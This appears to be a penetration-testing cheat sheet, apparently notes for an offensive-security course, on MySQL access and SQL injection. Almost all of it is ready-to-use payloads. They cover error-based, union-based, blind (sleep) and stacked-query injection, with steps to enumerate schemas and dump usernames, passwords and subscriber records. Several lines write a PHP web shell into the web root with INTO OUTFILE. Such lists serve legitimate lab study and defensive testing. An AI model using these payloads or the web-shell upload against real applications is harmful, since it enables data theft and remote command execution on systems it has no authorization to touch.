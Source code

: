 # MySQL

```shell
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

{% code overflow="wrap" %}
```sql
select version();
select system_user();
show databases;
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';

```
{% endcode %}

### _<mark style="background-color:purple;">**Error-Based SQLi**</mark>_

```sql
offsec' OR 1=1 --
```

{% code overflow="wrap" %}
```sql
' or 1=1 in (select @@version) -- //
-- MySQL accepts both version() and @@version statements.
```
{% endcode %}

```sql
' OR 1=1 in (SELECT * FROM users) -- //
```

{% code overflow="wrap" %}
```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
{% endcode %}

#### _<mark style="background-color:purple;">**Union-Based SQLi**</mark>_

```sql
user' OR 1=1; -- //
```

```sql
' ORDER BY 6; -- //
-- change number until error occurs
-- when error occurs that means there is n-1 columns
```

```sql
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
-- determine which columns are displayed
```

{% code overflow="wrap" %}
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
-- dumps the current database name, the user, and the MySQL version in the first, second, and third columns
```
{% endcode %}

```sql
' UNION SELECT null,user(),null,null,null; -- //
-- returns the current MySQL user
```

{% code overflow="wrap" %}
```sql
' UNION SELECT null, DATABASE(), null, null, null; -- //
-- returns the database name
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null,null,null,null,group_concat(table_name),null FROM information_schema.tables WHERE table_schema = DATABASE(); -- //
-- get table name when only 5th column is rendered
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
-- returns table and column names
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null,null,null,null,group_concat(column_name),null FROM information_schema.columns WHERE table_name = 'subscribers'; -- //
-- get all column names from subscribers table
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null,null,null,null,group_concat(id, '|', emails, '|', is_donor, '|', donor_type, '|', status, '|', created_at),null FROM subscribers; -- //
-- dump table
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```
{% endcode %}

#### Upload a web shell to a writeable directory:

{% code overflow="wrap" %}
```sql
' UNION SELECT "", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION ALL SELECT "<?php system($_GET['cmd']);?>",NULL,NULL,NULL,NULL,NULL INTO OUTFILE "/var/www/html/webshell.php"#
```
{% endcode %}

### _<mark style="background-color:purple;">Blind SQLi</mark>_

```sql
' AND 1=1 -- //
```

```sql
' AND IF (1=1, sleep(3),'false') -- //
```

### _<mark style="background-color:purple;">Stacked queries SQLi</mark>_

**command injeciton**

{% code overflow="wrap" %}
```sql
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"
```
{% endcode %}
